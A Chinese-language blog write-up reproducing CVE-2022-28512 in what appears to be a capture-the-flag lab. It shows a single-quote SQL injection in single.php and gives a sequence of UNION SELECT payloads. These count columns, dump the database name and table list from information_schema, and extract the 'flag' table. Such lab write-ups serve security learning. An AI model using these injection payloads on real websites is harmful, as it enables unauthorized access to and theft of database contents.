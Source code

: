 ```yaml
---
title: CVE-2022-28512
subtitle:
date: 2025-03-14T12:31:43+08:00
slug: 2d91a81
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/05fc58e4d286d3c2c23eb706b30ff1a2.png)

发现并没有什么可用的，看到题目提示，直接访问

```
http://eci-2ze1snkmg1wia23zk99t.cloudeci1.ichunqiu.com/single.php
```



![](images/e11222ab8431fbb5c43b5b0193854d13.png)



| 1                                                            | 判断注入点   |
| ------------------------------------------------------------ | ------------ |
| 2                                                            | 爆字段个数   |
| 3                                                            | 爆显位位置   |
| 4                                                            | 爆数据库名   |
| 5                                                            | 爆数据库表名 |
| 6                                                            | 爆数据库列名 |
| 7                                                            | 爆数据库数据 |
| 用1=1和and 1=2测试，发现页面正常，排除数字型。测试到3'发现报错 |              |
| ![](images/82e637b055cc8953041960d1bedb2394.png)             |              |
| 根据报错信息可知，单引号闭合，构造playload                   |              |

```
id=3'--+
```

首先爆字段个数，注入语句，发现到10时报错，显示位数为9

```
id=3' order by 9--+
```



![](images/dca74f1d7bdda5cb1757b2f136091db5.png)




爆显位位置，注入语句为

```
id=-3' union select 1,2,3,4,5,6,7,8,9--+
```



![](images/cbc0db57a21de3ecd37f9245fbffa5af.png)

4可以注入，语句

```
id=-3' union select 1,2,3,database(),5,6,7,8,9--+
```



![](images/c487dc06770823d4581c85af07d07deb.png)

发现数据库名称为ctf，接下来爆破库表名

```
id=-3' union select 1,2,3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()--+
```



![](images/89c660d1c9aa6d8a001c66488f45d31e.png)

得到数据库表名

```
titles,page_hits,membership_userpermissions,membership_groups,blog_categories,membership_userrecords,membership_users,editors_choice,blogs,links,flag,banner_posts,membership_grouppermissions,visitor_info
```

关键词为flag，爆破列名，注入语句为

```
id=-3' union select 1,2,3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_schema=database() and table_name="flag"--+
```



![](images/f05a9102e6bac84d5df3cb913a4e6833.png)

爆破数据库数据，注入语句为

```
id=-3' union select 1,2,3,group_concat(flag),5,6,7,8,9 from flag --+
```



![](images/b7b20b166cfe751b021eec72a47d47a8.png)

